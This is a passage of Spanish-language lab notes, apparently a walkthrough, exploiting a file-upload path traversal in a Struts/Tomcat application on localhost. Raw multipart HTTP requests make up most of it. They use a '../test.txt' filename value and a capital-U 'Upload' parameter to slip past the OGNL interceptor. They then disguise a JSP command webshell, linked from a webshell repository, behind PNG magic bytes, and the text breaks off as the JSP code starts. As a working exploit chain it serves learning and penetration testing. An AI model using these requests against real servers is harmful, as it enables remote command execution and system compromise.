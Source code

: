 ```http
PNG

whoami

------WebKitFormBoundaryJHdpaH6gDs4Syohg
Content-Disposition: form-data; name="top.UploadFileName"

../test.txt

------WebKitFormBoundaryJHdpaH6gDs4Syohg--
```

Sigue sin subirse el test.txt en el directorio anterior a uplodas; su cambiamos el "upload" miniscula a una U mayuscula; esto se debe a como la aplicacion del tomcat esta configurada; el Upload no se pasa al OGNL interceptor y la subida funciona

FUNCIONA!!
![[Pasted image 20250219191858.png]]

Dentro del archivo de texto esta el contenido del PNG

![[Pasted image 20250219193309.png]]

Nuestro objetivo a continuacion es subir un archivo .jsp que pueda interpretar javascript


### Webshell

Cogemos una [webshell](https://raw.githubusercontent.com/tennc/webshell/refs/heads/master/fuzzdb-webshell/jsp/cmd.jsp) y lo pegamos despues del "PNG" en el request
el request queda asi:
```http
POST /upload.action;jsessionid=12027ECD4EDE843F44D6C8932AB3E1BE HTTP/1.1
Host: localhost:8080
Content-Length: 347
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: es-ES,es;q=0.9
Origin: http://localhost:8080
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJHdpaH6gDs4Syohg
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=12027ECD4EDE843F44D6C8932AB3E1BE
Connection: keep-alive

------WebKitFormBoundaryJHdpaH6gDs4Syohg
Content-Disposition: form-data; name="Upload"; filename="whoa3mi.jpeg"
Content-Type: image/png

PNG

<%@ page import="java.util.*,java.io.*"%>
<%
//
```